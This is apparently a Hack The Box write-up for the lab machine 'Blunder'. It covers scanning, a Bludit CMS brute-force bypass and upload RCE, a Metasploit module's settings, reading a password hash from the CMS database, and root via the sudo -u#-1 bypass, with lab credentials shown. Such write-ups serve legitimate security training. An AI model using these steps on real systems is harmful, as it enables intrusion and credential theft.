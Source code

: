 ![](blunder-banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="http://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

||
|-----------|
|Start with the nmap only found the web_server on port 80. running gobuster discovers __todo.txt__  and __admin__ page. In the txt file found username __fergus__ and from admin page found out that the server is running __Bludit-CMS__ and the running CMS version is vulnerable for __password bruteforce attack__ and __auth Directory Traversal__ vulnerability and after getting user fergus password using bruteforce attack i get shell as user __www-data__ with Directory Traversal vulnerability. After some enumeration found user __Hugo__ creds from the server files and get the __user_flag__. User hugo have all sudo rights and the sudo version in the box is vulnerable for sudo security bypass exploit and from that get the __Root_flag__.|

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.191 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.191`
```
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```
## Gobuster
`gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php -t 50`
```
/admin (Status: 301)
/todo.txt (Status: 200)
```
### /admin
- in the admin page I found [bludit CMS](https://github.com/bludit/bludit) admin login panel, 
- Looking at the source code, the CMS version is identified as `3.9.2`

### /todo.txt
`-Inform fergus that the new blog needs images - PENDING`

potential username __fergus__

## Google
__search :__ `bludit 3.9.2 vulnerability`

__*2 CVEs Found*__

__CVE-2019-17240__:*bl-kernel/security.class.php in Bludit 3.9.2 allows attackers to bypass a brute-force protection mechanism by using many different forged X-Forwarded-For or Client-IP HTTP headers.* 

__CVE-2019-16113 (1 Metasploit modules)__:*Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.* 

# User Exploiting

## CVE-2019-17240
__*Discoverer*__: Rastating
__*References*__: [rastating.github.io](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) Blog post.

- requirements

  - __username:__ fergus
  - __wordlist:__ *create a wordlist from the website text*
  
        cewl http://10.10.10.191 -w wordlist


### POC Script

[bludit_3.9.2-Bruteforce.py](exploit/bludit_3.9.2-Bruteforce.py)
* [Wordlist](exploit/wordlist.txt) generated from webpage usubg cewl tool

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=940s)*

#### creds

      fergus:RolandDeschain

## CVE-2019-16113
__*Discoverer*__: Christasa
__*References*__: [issue 1081](https://github.com/bludit/bludit/issues/1081)

- requirements

  - __username:__ fergus
  - __password:__ RolandDeschain


### Exploiting

#### using ExploitDB Script
  - Title: Bludit 3.9.2 - Directory Traversal
  - Author: James Green
  - EDB-ID: [48701](https://www.exploit-db.com/exploits/48701)

[Bludit_3.9.2-DirectoryTraversal.py](exploit/Bludit_3.9.2-DirectoryTraversal.py)

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=2460s)*

#### MSF Module [Rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec)
> exploit/linux/http/bludit_upload_images_exec

	BLUDITPASS => RolandDeschain
	BLUDITUSER => fergus
	RHOSTS => 10.10.10.191
	LHOST => tun0

### low lavel user shell or meterpreter shell
	$ whoami;id
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

### spawn dumb shell, [ropnop.com blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

	$ which python
		/usr/bin/python
	# In reverse shell
	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# In Kali
	$ stty raw -echo
	$ fg 	//Enter twice

	# In reverse shell
	$ reset
	$ export SHELL=bash
	$ export TERM=xterm-256color
	$ stty rows <num> columns <cols>

__for meterpreter shell upgrade :__ [hackingarticles.in blog](https://www.hackingarticles.in/command-shell-to-meterpreter/)

### Local Enumeration

- Home directory has 2 users

	  hugo	//has user flag
	  shaun

- in `/var/www/bludit-3.10.0a/bl-content/databases` directory

	  user.php	//contains Hugo's password hash

		"nickname": "Hugo",
		"password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"
		//hash type SHA1
		
- creds

	  hugo:Password120

# Root Prevesc

- __Enumeration__

	  $ su - hugo
	  su - hugo
	  Password: Password120

	  hugo@blunder:~$ sudo -l
	  sudo -l
	  Password: Password120

	  Matching Defaults entries for hugo on blunder:
	      env_reset, mail_badpass,
	      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
	  hugo@blunder:~$ sudo -V
	  sudo -V
	  Sudo version 1.8.25p1


### Google
__search :__ `sudo ALL, !root privesc`

__*1 CVE Found*__

#### CVE-2019-14287

	# Exploit Title : sudo 1.8.27 - Security Bypass
	# Original Author: Joe Vennix
	# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
	# Version : Sudo <1.2.28
	# Credit : Joe Vennix from Apple Information Security found and analyzed the bug

EDB-ID: [47502](https://www.exploit-db.com/exploits/47502)

- misconfigured sudo

	  $ sudo -l 
	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
    
__EXPLOIT :__ 

	$ sudo -u#-1 /bin/bash